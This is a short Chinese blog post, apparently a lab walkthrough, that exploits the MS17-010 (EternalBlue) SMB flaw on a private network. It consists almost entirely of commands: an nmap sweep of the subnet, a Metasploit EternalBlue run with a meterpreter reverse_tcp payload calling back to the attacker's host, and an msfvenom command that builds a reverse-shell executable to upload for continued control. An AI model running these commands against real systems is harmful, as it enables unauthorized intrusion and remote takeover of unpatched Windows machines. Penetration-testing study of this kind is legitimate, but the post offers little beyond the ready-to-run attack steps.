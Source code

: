 ```yaml
---
layout: post
title:  ms17_010漏洞利用(永恒之蓝)
date: 2021-06-23 19:02 +0900
category: exploiting
---
```


## 0x0 探测内网主机

`nmap -ss -v 192.168.153.0/24`  
![](/images/20210623-1.png)

## 0x1 nessus扫描

`发现存在ms17-010漏洞`
![](/images/20210623-2.png)

## 0x2 msf进行利用

```c
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost 192.168.153.128
set lhost 192.168.153.1
set lport 9991
run
```
![](/images/20210623-3.png)

## 0x3 制作木马进行上传

```c
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.153.1 lport=9992 -f exe >shell.exe
```
![](/images/20210623-4.png)

**之后可以实现后续控制**